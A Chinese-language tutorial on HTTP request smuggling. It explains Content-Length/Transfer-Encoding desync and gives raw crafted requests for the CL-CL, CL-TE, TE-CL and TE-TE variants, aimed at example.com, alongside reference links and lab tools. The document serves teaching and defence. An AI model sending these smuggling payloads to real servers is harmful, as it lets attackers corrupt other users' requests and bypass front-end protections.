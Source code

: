 # HTTP_request_smuggling

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [HTTP Desync Attacks: Request Smuggling Reborn | Blog - PortSwigger](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn)
- [HTTP Desync Attacks: Smashing into the Cell Next Door ](https://xz.aliyun.com/t/5978) - 上面的翻译版
- [What is HTTP request smuggling? Tutorial & Examples](https://portswigger.net/web-security/request-smuggling)
- [HTTP request smuggling](https://saucer-man.com/information_security/368.html)
- [一篇文章带你读懂 HTTP Smuggling 攻击](https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/)
- [协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)
- [Breaking the chains on HTTP Request Smuggler](https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler)
- [从一道题深入HTTP协议与HTTP请求走私](https://xz.aliyun.com/t/6631)
- [流量夹带(HTTP Request Smuggling) 检测方案的实现](https://blog.riskivy.com/%e6%b5%81%e9%87%8f%e5%a4%b9%e5%b8%a6http-request-smuggling-%e6%a3%80%e6%b5%8b%e6%96%b9%e6%a1%88%e7%9a%84%e5%ae%9e%e7%8e%b0/)

**靶场**
- [ZeddYu/HTTP-Smuggling-Lab](https://github.com/ZeddYu/HTTP-Smuggling-Lab)

**burp扩展**
- [PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)

**相关工具**
- [defparam/smuggler](https://github.com/defparam/smuggler) - Python 3 编写的 HTTP 请求走私检测工具

---

# 漏洞产生的原因

HTTP Request Smuggling 最初是由 WatchFire1 于 2005 年记录下来的，由于难以利用和危害性无法控制，该问题一直处于被忽略的状态。直到 2019 年的 BlackHat USA 上，PortSwigger 的 James Kettle 在他的议题——HTTP Desync Attacks: Smashing into the Cell Next Door 中提出了一套较为完善的利用流程，这个漏洞才被人熟知。

上面我们说到了 HTTP 协议的基本原理，其中一个 HTTP 请求中可以有多种方式来指定消息的长度，比如：Content-Length、Transfer-Encoding。

但是当一个请求中同时出现了 2 种方法，就会发生一些问题。HTTP 规范 (RFC2616) 中定义，如果接收的消息同时包含传输编码头字段 (Transfer-Encoding) 和内容长度头 (Content-Length) 字段，则必须忽略后者。然而，后端服务器有自己的想法，它会同时处理。

---

# 几种走私请求利用方法

**CL 不为 0 的 GET 请求**

假设前端代理服务器允许 GET 请求携带请求体，而后端服务器不允许 GET 请求携带请求体，它会直接忽略掉 GET 请求中的 Content-Length 头，不进行处理。这就有可能导致请求走私。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取 Content-Length，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 Content-Length 进行处理，由于 Pipeline 的存在，它就认为这是收到了两个请求，分别是
```
GET / HTTP/1.1\r\n
Host: example.com\r\n
```
```
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
```

**CL-CL**

假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 Content-Length 的值对请求进行处理，而后端源站服务器按照第二个 Content-Length 的值进行处理, 这样便有可能引发请求走私。

此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```
中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7 个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 a，对于后端服务器来说，这个 a 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如下所示。

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 a 的后面，当后端服务器接收完毕后，它实际处理的请求其实是

```
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
这时候用户就会收到一个类似于 aGET request method not found 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

**CL-TE**

所谓 CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 Content-Length 这一请求头，而后端服务器会遵守 RFC2616 的规定，忽略掉 Content-Length，处理 Transfer-Encoding 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

```
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```
此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```
由于前端服务器处理 Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为 6，也就是

```
0\r\n
\r\n
G
```
当请求包经过代理服务器转发给后端服务器时，后端服务器处理 Transfer-Encoding，当它读取到 0\r\n\r\n 时，认为已经读取到结尾了，但是剩下的字母 G 就被留在了缓冲区中，等待后续请求的到来。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。
```
GPOST / HTTP/1.1\r\n
Host: example.com\r\n
......
```

**TE-CL**

所谓 TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理 Transfer-Encoding 这一请求头，而后端服务器处理 Content-Length 请求头。

构造数据包

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
由于前端服务器处理 Transfer-Encoding，当其读取到 0\r\n\r\n 时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 Content-Length 请求头，当它读取完 12\r\n 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是
```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**TE-TE**

TE-TE，也很容易理解。当收到存在两个请求头的请求包时，前后端服务器都处理 Transfer-Encoding 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，因而我们可以对发送的请求包中的 Transfer-Encoding 进行某种混淆操作，从而使其中一个服务器不处理 Transfer-Encoding 请求头。从某种意义上还是 CL-TE 或者 TE-CL。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
